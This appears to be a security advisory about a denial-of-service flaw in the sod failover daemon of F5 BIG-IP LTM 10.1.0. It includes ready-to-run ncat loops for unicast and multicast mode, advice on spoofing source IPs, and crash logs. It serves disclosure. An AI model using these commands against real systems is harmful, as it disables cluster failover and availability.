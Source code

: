Summary of the issue
--------------------

Attack can be performed by sending crafted UDP packets directed to *sod* daemon
listening on particular interface and port of BIG-IP LTM VE instance.

In well designed networks where Network Failover is configured to run on
dedicated, isolated networks attack surface is limited and requires attacker to
have direct access to particular network.

Attack requires attacker to acquire basic information about network design in
order to be successful. It seems plausible that all those information can be
bruteforced in case no knowledge of attacked network is assumed. Additionally
some values are suggested as default in documentation and configuration (*sod*
ports for unicast and multicast mode, IP for multicast mode).

Due to the fact that no two-way communication is required for attack to be
successful attacker may spoof source IP when attacking service in unicast mode.
This may indicate that there's no requirement for attacker to have direct access
to network in which *sod* service is running. This however heavily depends on
other network security measures that may be implemented.

It should be also noted that vendor suggests running Network Failover/*sod*
service on dedicated, isolated VLAN.

Technical details
-----------------

**Unicast mode**

It has been observed that it's possible to crash/cause restart of *sod* service by
sending crafted UDP packets. Packets need to conform to following rules:

* source IP should be set to valid peer self IP address
* destination IP should be set to self IP of attacked device
* destination UDP port should be set to port on which *sod* service is listening
* payload of UDP should contain single byte value - meaningful results have been
achieved using "\x01" and "\0x41"

Presented points can be satisfied by running following Bash command from
attacker's machine:

```shell
while (true); do printf "\x01" | ncat --send-only -nvu 10.1.70.10 8900; sleep 1;
done
```
Important prerequisite is that attacker's machine must be configured with IP
equal to self IP of peers machine. As no two-way communication is expected here
source IP address can be easily spoofed. Referenced Ruby script (f5-soddos.rb)
allows for easy spoofing of IP source address and doesn't require reconfiguring
of network adapter.

When above command is run *sod* deamon will start crashing/restarting giving
similar console output on attacked machine:

```
[root@BIGIP-1:Active] config # Feb 16 00:15:18 local/BIGIP-1 emerg logger:
Re-starting sod
Feb 16 00:15:20 local/BIGIP-1 emerg logger: Re-starting sod

[root@BIGIP-1:Offline] config # Feb 16 00:15:21 local/BIGIP-1 emerg logger: 
Re-starting sod
Feb 16 00:15:22 local/BIGIP-1 emerg logger: Re-starting sod
Feb 16 00:15:23 local/BIGIP-1 emerg logger: Re-starting sod
Feb 16 00:15:24 local/BIGIP-1 emerg logger: Re-starting sod

[root@BIGIP-1:Standby] config #
[root@BIGIP-1:Active] config #
```

Due to failure of service vital to operation of cluster switchover standby
device won't assume Active status.

**Multicast mode**

Most of the rules are not changed for multicast mode. The main difference for
attack to be successful is that in multicast mode source IP of crafted packets
may be random (doesn't need to match self IP of peer device).

In order to perform attack in network where *sod* is running in multicast mode
following command can be used:

```shell
while (true); do printf "\x01" | ncat --send-only -nvu 224.0.0.245 62960;
sleep 1; done
```

Results of such command are very similar to those in unicast mode. There's one
difference however - due to multicast operation both instances can be attacked
with single packet.

Affected versions
-----------------

Only F5 BIG-IP LTM version tested was the one available on F5 trial software
site: Version 10.1.0 Build 3341.1084

It can be assumed that earlier versions may be affected as well.

According to vendor *sod* daemon from version 11.1 and above is patched and not
affected by presented issue.
